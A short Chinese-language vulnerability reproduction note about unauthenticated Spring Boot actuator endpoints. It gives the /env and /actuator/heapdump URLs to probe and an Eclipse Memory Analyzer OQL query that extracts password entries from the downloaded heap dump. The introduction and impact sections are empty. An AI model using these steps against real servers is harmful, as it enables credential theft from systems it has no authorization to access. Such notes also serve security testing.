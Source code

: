# Spring Boot 提取内存密码

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> 访问如下路径如果有数据说明存在漏洞

**Spring Boot 1.x版本**

`http://www.baidu.com:8090/env`

**Spring Boot 2.x版本**

`http://www.baidu.com:8090/actuator/env`

![2.png](media/202009/bb0b08f5678e408ab0361807aa8ebfcf.png)

> 当发现存在未授权漏洞时，可以直接访问 `/actuator/heapdump` 下载内存，提取密码

`http://www.baidu.com:8090/actuator/heapdump`

> heapdump文件下载完成之后可以利用Eclipse Memory Analyzer 来解析内存文件

```
http://www.eclipse.org/mat/downloads.php

```

> 匹配内存中password字符串，并不一定能匹配完，可以通过`/actuator/env`得到的`JDBC`信息再来匹配关键字

`select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))`

![1.png](media/202009/2ca70d28e68e483084bc05020e61277a.png)

